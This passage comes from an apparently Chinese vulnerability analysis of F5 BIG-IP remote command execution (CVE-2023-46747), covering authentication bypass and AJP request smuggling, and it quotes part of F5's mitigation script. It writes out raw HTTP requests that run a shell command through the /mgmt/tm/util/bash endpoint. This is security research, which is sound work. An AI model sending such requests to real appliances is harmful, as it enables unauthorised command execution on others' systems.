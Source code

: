 ```bash
POST /mgmt/shared/authn/login HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token:
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

```bash
POST /mgmt/tm/util/bash HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token: LIKUTWQGCHMYXG2X3LGCUKHUU2
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

换句话说，只要能绕过登陆的鉴权或者拿到管理员账号，就能 RCE（远程命令执行）。

所以你就会发现，BIG-IP 的 RCE（远程命令执行）漏洞几乎都是围绕鉴权绕过产生的，无非是绕过的方法不同。

### Apache Httpd AJP 请求走私

我们总结后发现，CVE-2020-5902 是利用了 Tomcat 的特性进行绕过，CVE-2022-1388 是利用了请求头的逻辑进行绕过，经过网上披露的细节我们发现这次 CVE-2023-46747 的问题出现在了 Apache。

> AJP 服务全称 Apache JServ Protocol，是一个类似 HTTP 的二进制协议，数据包格式较为简单。AJP 协议的 请求数据包 Magic 为 `0x1234`，后面紧跟着 2 个字节的数据长度字段，再往后就是数据包的具体内容。[2](https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt "A New Attack Method: AJP Request Smuggling")

对于 AJP 协议的其他细节就不再进行赘述，可以参考 Apache Tomcat 的官方文档。[3](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html "AJP Protocol Reference")

官方第一时间就给出了缓解脚本[4](https://my.f5.com/manage/s/article/K000137353 "K000137353: BIG-IP Configuration utility unauthenticated RCE CVE-2023-46747")，从缓解脚本发现很明显问题就出在了 AJP，联想到 AJP 请求走私的缓解措施就是设置 Apache Tomcat 的 AJP secret，那么很有可能这个漏洞就是通过 AJP 请求走私导致的权限绕过，从而导致 RCE。

```bash
#!/bin/sh
#
# Copyright © 2023, F5 Networks, Inc. All rights reserved.
#
# No part of this software may be reproduced or transmitted in any
# form or by any means, electronic or mechanical, for any purpose,
# without express written permission of F5 Networks, Inc.
#

proxy_ajp_conf="/config/httpd/conf.d/proxy_ajp.conf"
tomcat_conf="/etc/tomcat/server.xml"


# Backup original configuration files
if [ ! -f "${proxy_ajp_conf}.f5orig" ]; then
    cp "${proxy_ajp_conf}" "${proxy_ajp_conf}.f5orig"
fi
if [ ! -f "${tomcat_conf}.f5orig" ]; then
    cp "${tomcat_conf}" "${tomcat_conf}.f5orig"
fi

usage()
{
    echo "Usage: $0 [-h]|[-u][-r]"
    echo "This utility mitigates ID1378329 and restarts the apache and tomcat daemons."
```